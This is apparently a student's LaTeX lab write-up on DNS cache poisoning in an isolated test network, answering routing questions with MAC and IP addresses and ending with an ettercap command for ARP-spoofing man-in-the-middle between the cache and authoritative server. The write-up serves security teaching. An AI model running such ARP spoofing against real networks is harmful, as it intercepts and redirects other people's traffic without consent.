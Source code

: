 \documentclass[a4paper,11pt,hidelinks]{article}
\newtheorem{theorem}{Question}[subsection]
\begin{document}
\begin{theorem}
    Does the packet travel through the attacker box?
\end{theorem}

\begin{proof}
    No, it does not. The \verb=attacker= box is not on the same LAN segment as the \verb=client= and \verb=cache=. A \verb=traceroute= confirms us that the \verb=cache= is just one hop away.
\end{proof}

\begin{theorem}
    State the source MAC and IP addresses as well as destination MAC and IP addresses for a packet going from the cache to the authoritative server
\end{theorem}

\begin{proof}
    The packets start from the external \verb=cache= interface (\verb=00:04:23:ae:d0:49=@\verb=10.1.2.2/24=), then get routed through \verb=lan0= and end up at \verb=auth= (\verb=00:04:23:ae:d0:3e=@\verb=10.1.2.3/24=). Tracerouting a packet confirms this assumptions.
\end{proof}

\begin{theorem}
    Does the packet travel through the attacker box?
\end{theorem}

\begin{proof}
    With this situation, it does not. The packets get sent directly to the authoritative server.
\end{proof}

\clearpage
\newpage
\subsection{Part 3: Using Ettercap}
Login to the \verb=attacker= machine. 

Using ettercap, your objective is to get the DNS query for \verb=www.google.com= to pass through the \verb=attacker=. Once you've accomplished this and confirmed that the desired traffic is now passing through the attacker, record each command you used and what each option in the command means.

\begin{code}{Code used for perpetrating the DNS cache poisoning attack:}
ettercap --text --iface eth0 --nosslmitm --nopromisc 
    --only-mitm --mitm arp /10.1.2.2/// /10.1.2.3///
\end{code}
\end{document}

